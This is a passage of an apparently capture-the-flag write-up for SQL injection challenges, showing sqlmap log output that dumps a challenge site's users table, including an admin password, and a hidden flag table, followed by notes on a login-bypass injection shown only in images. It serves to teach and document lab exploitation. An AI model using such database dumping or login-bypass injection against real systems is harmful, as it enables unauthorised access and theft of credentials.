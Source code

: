 ````
[22:53:41] [INFO] fetching number of entries for table 'users' in database 'SQLite_masterdb'
[22:53:41] [INFO] retrieved: 1
[22:53:42] [INFO] retrieved: 1
[22:53:42] [INFO] retrieved: FLABbergasted!
[22:53:45] [INFO] retrieved: admin
Database: <current>
Table: users
[1 entry]
+----+----------------+----------+
| id | password       | username |
+----+----------------+----------+
| 1  | FLABbergasted! | admin    |
+----+----------------+----------+

[22:53:47] [INFO] table 'SQLite_masterdb.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/chal4.hackademy.ctf/dump/SQLite_masterdb/users.csv'                                             
[22:53:47] [INFO] retrieved: CREATE TABLE fl4G_1s_H3re (apprentice_flagTODO TEXT NOT NULL)
[22:54:03] [INFO] fetching entries for table 'fl4G_1s_H3re'
[22:54:03] [INFO] fetching number of entries for table 'fl4G_1s_H3re' in database 'SQLite_masterdb'
[22:54:03] [INFO] retrieved: 1
[22:54:03] [INFO] retrieved: FLAG-b6c00f68954057dd09658be5d187aac5 (1/2). If you don't already have, try to bypass the login (still with the injection).
Database: <current>
Table: fl4G_1s_H3re
[1 entry]
+-----------------------------------------------------------------------------------------------------------------------------+
| apprentice_flagTODO                                                                                                         |
+-----------------------------------------------------------------------------------------------------------------------------+
| FLAG-b6c00f68954057dd09658be5d187aac5 (1/2). If you don't already have, try to bypass the login (still with the injection). |
+-----------------------------------------------------------------------------------------------------------------------------+
...
````
We can see that sqlmap exfiltrated all the database and revealead the flag in the table fl4G_1s_H3re.

![SQL injection 102](/will-hack-for-coffee/assets/images/nsec2022/sqli102.png){:.centered}

From the previous challenge we know the admin password but if we try to login with it there is a mesage to try login bypass instead:

![SQL injection 102](/will-hack-for-coffee/assets/images/nsec2022/sqli-admin.png){:.centered}

Leaving the password field blank, here is the [injection](https://portswigger.net/web-security/sql-injection/union-attacks) I used:

![SQL injection 102](/will-hack-for-coffee/assets/images/nsec2022/sqli-bypass.png){:.centered}
